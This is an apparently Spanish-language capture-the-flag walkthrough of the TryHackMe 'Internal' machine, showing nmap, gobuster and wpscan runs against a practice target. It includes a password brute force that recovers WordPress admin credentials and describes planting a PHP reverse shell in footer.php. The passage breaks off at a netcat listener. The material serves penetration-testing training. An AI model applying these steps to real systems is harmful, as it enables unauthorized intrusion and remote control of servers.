La máquina Internal de TryHackMe es una máquina de dificultad dificil que simula un entorno empresarial interno comprometido, basada en una estructura realista donde se combinan tecnologías ampliamente utilizadas como WordPress, Jenkins y túneles internos en Docker. Está diseñada con un enfoque tipo CTF, pero sin perder el realismo de un escenario corporativo comprometido. La ruta de explotación se divide en tres fases principales
#nmap -sC -sV -T5 -v -Pn --open 10.10.254.88
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-29 18:01 AST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 18:01
Completed NSE at 18:01, 0.01s elapsed
Initiating NSE at 18:01
Completed NSE at 18:01, 0.00s elapsed
Initiating NSE at 18:01
Completed NSE at 18:01, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 18:01
Completed Parallel DNS resolution of 1 host. at 18:01, 0.03s elapsed
Initiating SYN Stealth Scan at 18:01
Scanning 10.10.254.88 [1000 ports]
Discovered open port 80/tcp on 10.10.254.88
Discovered open port 22/tcp on 10.10.254.88
Completed SYN Stealth Scan at 18:01, 3.62s elapsed (1000 total ports)
Initiating Service scan at 18:01
Scanning 2 services on 10.10.254.88
Completed Service scan at 18:01, 7.59s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.254.88.
Initiating NSE at 18:01
Completed NSE at 18:01, 11.88s elapsed
Initiating NSE at 18:01
Completed NSE at 18:01, 1.18s elapsed
Initiating NSE at 18:01
Completed NSE at 18:01, 0.01s elapsed
Nmap scan report for 10.10.254.88
Host is up (1.2s latency).
Not shown: 666 closed tcp ports (reset), 332 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| 256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_ 256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Durante la fase de reconocimiento, se identificaron dos servicios expuestos en la máquina: un servidor SSH (OpenSSH 7.6p1) y un servidor web Apache (versión 2.4.29) corriendo sobre Ubuntu. La presencia del puerto 22 indica que podría ser posible realizar un acceso remoto autenticado más adelante. Por otro lado, el servidor web responde con la página por defecto de Apache en Ubuntu, lo que sugiere que no se ha configurado ningún sitio personalizado, haciendo de este servicio un buen punto de partida para la enumeración inicial.
>
Accedí al sitio web a través de la dirección IP descubierta y se mostró la página por defecto de Apache en Ubuntu. Esto confirma que el servidor HTTP está activo, pero aún no tiene contenido personalizado o una aplicación web visible, lo cual puede indicar la existencia de rutas ocultas o directorios no listados directamente que podrían ser interesantes de enumerar.
#gobuster dir -u http://10.10.254.88/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.254.88/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd (Status: 403) [Size: 277]
/.htaccess (Status: 403) [Size: 277]
/.hta (Status: 403) [Size: 277]
/blog (Status: 301) [Size: 311] [--> http://10.10.254.88/blog/]
/index.html (Status: 200) [Size: 10918]
/javascript (Status: 301) [Size: 317] [--> http://10.10.254.88/javascript/]
/phpmyadmin (Status: 301) [Size: 317] [--> http://10.10.254.88/phpmyadmin/]
/server-status (Status: 403) [Size: 277]
/wordpress (Status: 301) [Size: 316] [--> http://10.10.254.88/wordpress/]
Progress: 4614 / 4615 (99.98%)
Realicé una enumeración de directorios en el servidor web y se identificaron varias rutas interesantes. Algunos archivos como .htaccess y .htpasswd devolvieron un código 403, indicando que existen pero el acceso está restringido. Esto puede ser útil más adelante para conocer configuraciones del servidor.
Destacan varios directorios accesibles:

Al ingresar al directorio /blog, se carga una instancia de WordPress con el título “Internal” y el eslogan por defecto “Just another WordPress site”. El sitio presenta el post inicial “Hello world!”, lo que indica que probablemente se trata de una instalación reciente o poco configurada. Esto podría significar que aún no se han aplicado medidas de seguridad básicas, lo que abre la posibilidad de encontrar paneles de administración accesibles o vulnerabilidades comunes asociadas a WordPress

Al revisar el código fuente de la página /blog, se descubrió una referencia al dominio interno internal.thm. Esto indica que el servidor está configurado para operar con un nombre de host personalizado que no es accesible directamente desde fuera del entorno local. Este tipo de hallazgo suele revelar información sobre el entorno interno de red o configuraciones DNS, y puede ser clave para realizar una resolución de nombre manual o para actualizar el archivo /etc/hosts y acceder a recursos que de otra forma no estarían visibles desde el exterior.

Tras identificar el dominio internal.thm en el código fuente del sitio, lo añadí manualmente al archivo /etc/hosts apuntando a la IP de la máquina objetivo. Esto permitió resolver correctamente el nombre de host y acceder a recursos que dependen de ese dominio, algo común en entornos mal configurados o simulaciones de redes internas.

Luego de agregar el dominio internal.thm al archivo /etc/hosts y recargar la ruta /blog, el sitio se mostró con una estructura mucho más completa. Ahora se presenta como un blog típico de WordPress con widgets laterales, enlaces de navegación y metainformación como archivos, categorías y un enlace de login. Esto confirma que el dominio personalizado era necesario para renderizar correctamente todos los recursos del tema.

Al acceder a la ruta /phpmyadmin, se presentó directamente una interfaz de inicio de sesión del panel de phpMyAdmin. Esto confirma que el servicio de gestión de bases de datos MySQL está expuesto públicamente, lo cual representa una superficie de ataque crítica si no está correctamente protegido. El siguiente paso será intentar identificar credenciales válidas, ya sea mediante fuerza bruta, reutilización de contraseñas o revisando archivos de configuración visibles en el servidor.
Se intentó acceder al panel de inicio de sesión de phpMyAdmin utilizando las credenciales predeterminadas comunes (por ejemplo, "root" con contraseña vacía o "root"/"toor"), pero ninguna de ellas funcionó. Esto sugiere que las credenciales por defecto han sido modificadas, lo que implica que el sistema ha sido configurado de manera más segura.
#gobuster dir -u http://10.10.254.88/blog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.254.88/blog
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.6
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content (Status: 301) [Size: 322] [--> http://10.10.254.88/blog/wp-content/]
/wp-includes (Status: 301) [Size: 323] [--> http://10.10.254.88/blog/wp-includes/]
/wp-admin (Status: 301) [Size: 320] [--> http://10.10.254.88/blog/wp-admin/]
Se ha ejecutado Gobuster en modo de enumeración de directorios contra la URL http://10.10.254.88/blog, utilizando la lista de palabras /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt. El análisis se realizó con 10 hilos y un tiempo de espera de 10 segundos por solicitud. Se configuraron códigos de estado negativos como 404, lo que indica que los directorios que devuelvan este código no serán reportados.
En la salida, se observaron varias rutas de directorios interesantes relacionadas con una instalación de WordPress:

Se accedió al directorio /wp-admin en la URL http://10.10.254.88/blog/wp-admin/. Este es un directorio clave de administración en instalaciones de WordPress, utilizado para gestionar el contenido y la configuración del sitio. El acceso a esta ruta puede ser indicativo de que se requiere una autenticación para proceder. Si el acceso es restringido, sería necesario realizar pruebas adicionales, como enumerar usuarios válidos o intentar utilizar credenciales predeterminadas si no se dispone de las correctas. También es relevante investigar posibles fallos de configuración, como la exposición de archivos sensibles o versiones vulnerables de wp-login.php o wp-admin.php, que pueden ser objetivos comunes para ataques.
#wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.28
Sponsored by Automattic - https://automattic.com/
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[i] It seems like you have not updated the database for some time.
[?] Do you want to update now? [Y]es [N]o, default: [N]Y
[i] Updating the Database ...
[i] Update completed.
[+] URL: http://internal.thm/blog/ [10.10.136.102]
[+] Started: Wed Apr 30 09:24:50 2025
Interesting Finding(s):
[+] Headers
| Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] XML-RPC seems to be enabled: http://internal.thm/blog/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
[+] WordPress readme found: http://internal.thm/blog/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] The external WP-Cron seems to be enabled: http://internal.thm/blog/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - https://www.iplocation.net/defend-wordpress-from-ddos
| - https://github.com/wpscanteam/wpscan/issues/1299
[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
| Found By: Rss Generator (Passive Detection)
| - http://internal.thm/blog/index.php/feed/, https://wordpress.org/?v=5.4.2
| - http://internal.thm/blog/index.php/comments/feed/, https://wordpress.org/?v=5.4.2
[+] WordPress theme in use: twentyseventeen
| Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
| Last Updated: 2025-04-15T00:00:00.000Z
| Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
| [!] The version is out of date, the latest version is 3.9
| Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
| Style Name: Twenty Seventeen
| Style URI: https://wordpress.org/themes/twentyseventeen/
| Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Found By: Css Style In Homepage (Passive Detection)
|
| Version: 2.3 (80% confidence)
| Found By: Style (Passive Detection)
| - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'
[+] Enumerating All Plugins (via Passive Methods)
[i] No plugins Found.
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
Checking Config Backups - Time: 00:00:09 <======================> (137 / 137) 100.00% Time: 00:00:09
[i] No Config Backups Found.
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys
Trying admin / lizzy Time: 00:10:11 < > (3885 / 13751884) 0.02% ETA: ??:??:??
[!] Valid Combinations Found:
| Username: admin, Password: my2boys
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Wed Apr 30 09:35:56 2025
[+] Requests Done: 4067
[+] Cached Requests: 5
[+] Data Sent: 2.042 MB
[+] Data Received: 16.147 MB
[+] Memory used: 269.836 MB
[+] Elapsed time: 00:11:06
Se utilizó WPScan para realizar un ataque de fuerza bruta contra el portal de administración de WordPress ubicado en http://internal.thm/blog. El ataque se enfocó en el usuario admin, utilizando el archivo de contraseñas rockyou.txt como diccionario. WPScan es una herramienta especializada en detección de vulnerabilidades y pruebas de seguridad en instalaciones de WordPress, y permite realizar ataques dirigidos a usuarios específicos.
Durante la ejecución del escaneo, se logró encontrar credenciales válidas:

Con las credenciales obtenidas mediante fuerza bruta (admin:my2boys), se accedió exitosamente al panel de administración de WordPress en http://internal.thm/blog/wp-admin. Este acceso confirma que el usuario admin posee privilegios administrativos completos, lo que permite modificar configuraciones del sitio, gestionar usuarios, instalar o editar plugins y temas, así como subir archivos directamente al servidor.

Desde el panel de administración de WordPress, se accedió a Appearance > Theme Editor, donde es posible editar directamente los archivos del tema activo. En la lista de archivos disponibles bajo Theme Files, se seleccionó el archivo footer.php, correspondiente al pie de página del sitio.
El archivo footer.php es un objetivo común para la inyección de código, ya que se ejecuta en prácticamente todas las páginas del sitio web, garantizando la ejecución del código malicioso sin necesidad de acceder a rutas específicas. Esto lo convierte en un lugar ideal para insertar una reverse shell en PHP o cualquier otro payload de persistencia/control remoto.

Se utilizó OsiReverse-shell.php, una reverse shell escrita en PHP y desarrollada por Osiris-MH, diseñada específicamente para pruebas de penetración en entornos controlados. Este script permite establecer una sesión remota interactiva con un servidor atacante mediante sockets TCP, ofreciendo mayor control y estabilidad que otras versiones más simples.

#nc -lvnp 4444
listening on [any] 4444 ...
